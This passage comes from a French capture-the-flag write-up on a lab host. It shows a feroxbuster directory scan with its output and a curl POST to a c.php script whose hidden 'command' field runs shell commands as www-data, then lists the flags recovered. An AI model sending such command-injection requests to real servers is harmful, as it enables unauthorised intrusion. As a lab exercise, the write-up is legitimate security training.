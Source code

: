 ```html
</body>
</html>
```
{% endraw %}

On retrouve donc le flag vu précédemment avec Nmap. La bannière du serveur a été modifiée pour contenir le flag, ce dernier apparait donc dans les entêtes HTTP mais aussi dans la signature des pages sur les erreurs 404.  

Ce port est en réalité celui sur lequel j'ai récupéré mes derniers flags car il m'a fallut utiliser des wordlists moins fréquentes pour retrouver les fichiers cachés.  

```
$ feroxbuster -u http://192.168.1.50:8111/ -w wordlists/files/Directories_All.wordlist -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.50:8111/
 🚀  Threads               │ 50
 📖  Wordlist              │ wordlists/files/Directories_All.wordlist
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403       11l       31w      293c http://192.168.1.50:8111/.htpasswd
403       11l       31w      297c http://192.168.1.50:8111/.htpasswd.php
200       12l       39w      218c http://192.168.1.50:8111/index.php
200        1l        1w       11c http://192.168.1.50:8111/c.php
200        5l       18w      173c http://192.168.1.50:8111/b.php
403       11l       31w      293c http://192.168.1.50:8111/.htaccess
403       11l       31w      297c http://192.168.1.50:8111/.htaccess.php
403       11l       31w      294c http://192.168.1.50:8111/.htpasswds
403       11l       31w      298c http://192.168.1.50:8111/.htpasswds.php
```

Le script *b.php* contient un formulaire avec un champ caché baptisé *command* qui par défaut va lister le contenu de */etc/backup/*. La cible de ce script est le fichier *c.php*. On est là dans un cas très simple d'exécution de commande distante (RCE).  

```console
$ curl -XPOST http://192.168.1.50:8111/c.php --data "command=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% raw %}
Je n'irais pas plus loin dans cette vulnérabilité car comme dit précédemment je l'ai découverte en dernier et tout le reste était déjà terminé mais dans le même dossier que les scripts se trouvait un fichier *5ac4b37ac5bf324---flag---5ac4b37ac5bf324* contenant le flag *{{tryharder:511}}* et dans le dossier */etc/backup/* se trouvait un fichier *flag.txt* avec le contenu *{{tryharder:1}}*.
{% endraw %}
